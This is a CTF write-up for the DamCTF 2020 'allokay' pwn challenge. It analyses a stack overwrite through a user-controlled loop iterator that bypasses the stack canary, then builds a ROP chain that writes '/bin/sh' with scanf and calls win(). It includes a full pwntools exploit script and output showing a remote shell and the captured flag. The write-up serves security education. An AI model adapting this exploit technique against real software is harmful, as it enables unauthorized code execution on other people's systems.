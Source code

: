 ```yaml
---
layout: post
title: Dam CTF 2020 allokay (pwn)
---
```


Running checksec on the binary, we can see that many standard exploit mitigation technologies are present: stack canaries, non-executable stack, no RUNPATH. PIE is disabled, and the debugging symbols are still present.

## Initial dynamic analysis

The program asks for the number of favorite numbers the user has. Next, the user has to put in all of his favorite numbers. One noticable thing is that the program does not handle certain numbers well, for example, when the user has 10 favorite numbers,the program stops after 6 numbers.

<img src="{{ site.baseurl }}/images/allokay1.png"/>

## Initial Static analysis

Since the symbols are still present in the binary, loading the program into IDA gave us a clear overview of the execution flow and names of the functions. In a function called "get_input", the program gathers all of the user's favorite numbers. There is a stack cookie present in the function, so simply feeding a lot of data to overwrite the instruction pointer would be impossible.

## The "6 number" problem

As seen in the initial dynamic analysis, the program exits if more than 6 numbers are put into the program. This is because the value for the number of programs and the iterator are both stored on the stack, but the user's favorite numbers are stored on the stack too. Since the program does not dynamically create enough space on the stack depending on the amount of favorite numbers the user has, the numbers will overwrite both the iterator and the maximum amount of numbers. Since it overwrites the max numbers first, and since the number put in is very small, the numbers_max variable will be set to 0, and the loop condition is false. The loop will break, and the program will exit.

One interesting property of the "get_input" function is that the iterator determines where on the stack the input is being written.

<img src="{{ site.baseurl }}/images/allokay2.png"/>

Since we control the iterator, we control where the program writes the data put in by the user, and since we control the numbers_max variable, we control how many writes it will perform before leaving the loop. This way, we can bypass the stack cookie and overwrite the saved return address with the address of "win()". It is important to note that the user has to put in the attacker data in the form of integers, since the scanf() function that gets the data uses the format string "%ld". For example, if we want to call win(), we would need to get the address in hexadecimal and convert it to decimal.

## /bin/sh

Unfortunately, the win() function requires an argument: the path for execve() to execute. The argument needs to be stored in rdi, so we first need to build a ropchain that puts "/bin/sh" into rdi. The binary itself does not contain that string, and simply popping the /bin/sh string from libc would not work either, since the remote server has ASLR enabled. Therefore, the ropchain needs to make a call to some function that gets input from the user and stores it somewhere the attacker intended.

The first function I considered was fgets(), since we could easily put in the literal string "/bin/sh" into stdin, and store it wherever we want. Unfortunately, there is no rop gadget that controls the rdx register, which is the third argument for the fgets() function. Instead, scanf() can be used to write the arbitrary data. One thing to note is that there is no "%s" format string in the binary, so we have to reuse the "%ld" string. This means that we need to put in the "/bin/sh" string in an integer format by converting the string to decimal with the ASCII table. For the write location of the "/bin/sh" string, I choose the .bss segment.

We now have enough information to build an exploit script and carry out an attack.

{% highlight python %}
#!/bin/python3

from pwn import *

numbers_max_overwrite = b'85899345931'
iterator_overwrite = b'42949672971'
poprdi = b'4196659'
ld = b'4196717'
poprsi_popr15 = b'4196657'
binsh_location = b'6295680'
scanf = b'4195936'
win = b'4196199'
binsh = b'29400045130965551'

r = remote('chals.damctf.xyz', 32575)

r.recvuntil(b'How many favorite numbers do you have?\n')
r.sendline(b'10')

for x in range(5):
    r.recvuntil(b': ')
    r.sendline(b'2')

r.recvuntil(b': ')
r.sendline(numbers_max_overwrite)
r.recvuntil(b': ')
r.sendline(b'2')
r.recvuntil(b': ')
r.sendline(iterator_overwrite)
r.recvuntil(b': ')
r.sendline(poprdi)
r.recvuntil(b': ')
r.sendline(ld)
r.recvuntil(b': ')
r.sendline(poprsi_popr15)
r.recvuntil(b': ')
r.sendline(binsh_location)
r.recvuntil(b': ')
r.sendline(b'2')
r.recvuntil(b': ')
r.sendline(scanf)
r.recvuntil(b': ')
r.sendline(poprdi)
r.recvuntil(b': ')
r.sendline(binsh_location)
r.recvuntil(b': ')
r.sendline(win)
r.sendline(binsh)

r.interactive()
{% endhighlight %}

Script output:
```console
[+] Opening connection to chals.damctf.xyz on port 32575: Done
[*] Switching to interactive mode
$ ls
allokay
flag
$ cat flag
dam{4Re_u_A11_0cK4y}
```

